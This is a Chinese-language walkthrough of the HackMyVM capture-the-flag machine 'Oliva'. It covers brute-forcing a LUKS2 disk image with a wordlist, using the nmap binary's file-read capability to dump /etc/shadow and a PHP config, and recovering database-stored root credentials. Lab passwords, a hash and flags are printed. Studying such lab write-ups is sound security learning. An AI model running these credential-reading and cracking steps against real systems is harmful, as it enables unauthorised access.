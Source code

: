# Oliva

2025.03.17 https://hackmyvm.eu/machines/machine.php?vm=Oliva

[video](https://www.bilibili.com/video/BV11jQqYEEuf/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 发现 http://192.168.5.39/index.php 提示点击链接 http://192.168.5.39/oliva 获得 root 密码。file 查看文件属性发现是 oliva: LUKS encrypted file, ver 2, 使用 sha256 进行的加密, 需要进行解密。

进行文件分割:

```
dd  if=oliva of=oliva-drive-cut.dd bs=512 count=4097
```

进行爆破，但是没戏，发现 hashcat 14600 只支持 v1 版本的 LUKS 文件破解:

```
hashcat -m 14600 -a 0 oliva-drive-cut.dd /usr/share/wordlist/rockyou.txt
```

在找一下其他的破解工具，找到了这个可以破解 v2 版本的文件 bruteforce-luks L

```
sudo apt install bruteforce-luks
bruteforce-luks -t 16 -f /usr/share/wordlists/rockyou.txt oliva -v 5
```

找到密码: bebita , 在使用 cryptsetup 挂载加密磁盘:

```
cryptsetup luksOpen oliva m
```

挂载到了 /dev/mapper/m 下 进行文件挂载：

```
mkdir m
sudo mount /dev/mapper/m m
```

进入 m 目录，发现密码文件：

```
cat mypass.txt
Yesthatsmypass!
```

尝试使用 oliva 用户登陆 ssh，先拿到 user flag:

```
oliva@oliva:~$ cat user.txt
HMVY0H8NgGJqbFzbgo0VMRm
```

发现 capabilities 程序:

```
oliva@oliva:/$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/nmap cap_dac_read_search=eip
/usr/bin/ping cap_net_raw=ep
```

利用 cap_dac_read_search 权限读取敏感信息：

```
/usr/bin/nmap -iL /etc/shadow

root:$y$j9T$mJZXSkk0PjMpjwgunTu3a.$xlW8pdbOdxHdqCatq072mj3qQ69To4Gy6WbRwSbY6S3:19542:0:99999:7:::
```

但是 john 没破解出来:

```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt hash --pot=./pot
```

猜不出 root 目录中的 roo flag 的文件名读取不到。

在回头看看 html 目录中的 web 文件，都是 www-data 所属，读取一下看看会不会有重要信息 index.php

```
/usr/bin/nmap -iL /var/www/html/index.php

Hi oliva, Here the pass to obtain root: <?php $dbname = 'easy'; $dbuser = 'root'; $dbpass = 'Savingmypass'; $dbhost = 'localhost'; ?>
```

链接到 mysql，拿到 root 用户的密码:

```
MariaDB [easy]> select * from easy.logging;
+--------+------+--------------+
| id_log | uzer | pazz         |
+--------+------+--------------+
|      1 | root | OhItwasEasy! |
+--------+------+--------------+
```

su 切换到 root，拿到 root flag:

```
root@oliva:~# cat rutflag.txt
HMVnuTkm4MwFQNPmMJHRyW7
```

最后记得 umount 磁盘，并且关闭 luks 加密磁盘:

```
sudo umount m
sudo cryptsetup close m
```

